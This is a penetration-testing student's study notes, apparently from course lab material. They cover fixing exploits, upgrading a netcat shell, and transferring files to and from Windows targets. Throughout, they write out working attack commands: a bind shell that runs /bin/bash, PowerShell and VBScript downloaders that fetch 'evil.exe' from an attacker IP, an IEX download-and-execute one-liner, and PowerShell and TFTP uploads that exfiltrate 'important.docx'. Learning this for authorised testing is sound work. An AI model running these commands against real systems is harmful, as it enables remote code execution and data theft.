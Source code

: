 ```yaml
---
title: Study Notes - 2021/03/22
date: 2021-03-22 23:19:04
tags: [Penetration Testing, Study Notes]
---
```


# Fixing Memory Corruption Exploits 
searchsploit -m 42341  
copy the exploit   


# Cross-Cpmpiling the Exploit Code  
mingw-64 a cross-compiler  
sudo apt install mingw-w64  

# Changing the Socket Information  
# Change the payload  

# Fix Web Exploits  
make sure the certificate is ignored if face certificate check failed  
python request The official documentation394 indicates that the SSL certificate will be ignored if we set the verify
parameter to False  




# File Transfers  
# non-interactive shell  
on client, we open a listening shell: nc -nvlp 4444 -e /bin/bash  
in attack machine, connect to it nc -nv xxx.xx.xx.xxx 4444  
if we run ftp, we lose the interaction, input not binded correctly  

# upgrading the non-interactive shell  
nc -nvlp 4444 -e /bin/bash  
nc -nv 192.168.148.44 4444  

python -c 'import pty; pty.spawn("/bin/bash")'  
get a bash prompt, get the pty shell, good  

# Transfer file with windows hosts 
Non-interative ftp download  
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/  

home directory of ftp is set to /ftphome/  

```
C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt  # request a binary file transfer
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```
-v to suppress any returned output, -n to suppresses automatic
login, and -s to indicate the name of our command file.  


# Windows Downloads using scripting languages

Use vb script
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe  

Use powershell :

```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

```
C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -
NoProfile -File wget.ps1
```

First, we must allow execution of PowerShell scripts (which is restricted by default) with the -
ExecutionPolicy keyword and Bypass value. Next, we will use -NoLogo and -NonInteractive
to hide the PowerShell logo banner and suppress the interactive PowerShell prompt, respectively.
The -NoProfile keyword will prevent PowerShell from loading the default profile (which is not
needed), and finally we specify the script file with -File: 

one line version 
```
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```
```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```
download and execute without save to disk  


# Download with exe2hex and powershell
`upx -9 nc.exe` compress the binary file  
`exe2hex -x nc.exe -p nc.cmd  `  

pipling the file into clipboard:
```
cat nc.cmd | xclip -selection clipboard
```

oaste it into the non-interactive shell  


# windows upload using windows scripting language  
host a upload http server  

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

sudo mkdir /var/www/uploads   
sudo chown www-data: /var/www/uploads   

```
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

# Uploading Files with TFTP
xp, 2003  

sudo chown nobody: /tftp  
sudo atftpd --daemon --port 69 /tftp    

in windows:  
tftp -i 10.11.0.4 put important.docx  



